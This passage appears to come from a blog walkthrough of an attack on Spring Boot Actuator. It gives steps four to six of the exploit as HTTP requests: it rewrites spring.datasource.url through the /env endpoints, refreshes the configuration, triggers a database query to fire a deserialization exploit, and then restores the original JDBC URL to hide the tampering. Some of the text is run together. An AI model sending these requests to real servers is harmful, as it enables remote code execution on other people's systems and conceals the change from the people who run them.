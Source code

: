  |

**spring 1.x**

**\
**

```
POST /envContent-Type: application/x-www-form-urlencodedspring.datasource.url=corresponding property value
```

**spring 2.x**

|

1

2

3

4

5

 |

POST /actuator/env

Content-Type: application/json

{ "name" : "spring.datasource.url" , "value" : "corresponding property value" }

 |

[](https://www.blogger.com/#)**Step 4:** Refresh the configuration

**spring 1.x\
**

```
POST  /refreshContent-Type: application/x-www-form-urlencoded
```

**spring 2.x**

```
POST /actuator/refreshContent-Type: application/json
```

[](https://www.blogger.com/#)**Step 5:** Trigger database query

- Try to access the known database query interface of the website, such as: /product/list, or find other ways to actively trigger the source website to perform database query, and then the vulnerability will be triggered

[](https://www.blogger.com/#)**Step 6: **restore normal jdbc url

- After the deserialization exploit is complete, use the method in step three to restore the original value spring.datasource.urlrecorded in step onevalue
